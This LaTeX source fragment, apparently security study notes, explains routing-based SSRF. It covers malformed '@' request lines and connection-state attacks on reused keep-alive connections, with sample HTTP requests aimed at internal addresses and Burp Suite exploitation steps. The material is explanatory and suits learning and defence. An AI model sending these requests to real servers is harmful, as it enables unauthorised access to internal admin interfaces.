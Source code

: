\documentclass[12pt,a4paper]{article}
\begin{document}
\begin{lstlisting}[caption=Malformed Request Line Attack]
# Normal request
GET /path/to/resource HTTP/1.1

# Malformed request with @ symbol
GET @private-intranet/example HTTP/1.1

# Results in upstream URL:
# http://backend-server@private-intranet/example
# Interpreted as: username=backend-server, host=private-intranet

# This can allow access to internal systems
GET @192.168.0.1/admin HTTP/1.1
\end{lstlisting}

\subsection{Connection State Attacks}

\subsubsection{Overview}
For performance, many websites reuse connections for multiple request/response cycles. Poorly implemented HTTP servers assume certain properties (like Host header) are identical for all requests over the same connection.

\subsubsection{Attack Technique}
\begin{lstlisting}[caption=Connection State Attack]
# First request (innocent) - establishes connection
GET / HTTP/1.1
Host: vulnerable.com
Connection: keep-alive

# Second request (malicious) - same connection
GET /admin HTTP/1.1
Host: 192.168.0.1
Connection: keep-alive

# The server validates only the first request
# Subsequent requests bypass validation
# This allows access to restricted content
\end{lstlisting}

\subsubsection{Exploitation Steps}
\begin{enumerate}
    \item Send a legitimate request to establish connection
    \item Add both tabs to a group in Burp Suite
    \item Change send mode to "Send group in sequence (single connection)"
    \item Set Connection header to keep-alive
    \item First request: Valid Host header for validation
    \item Second request: Malicious Host header for exploitation
\end{enumerate}
\end{document}
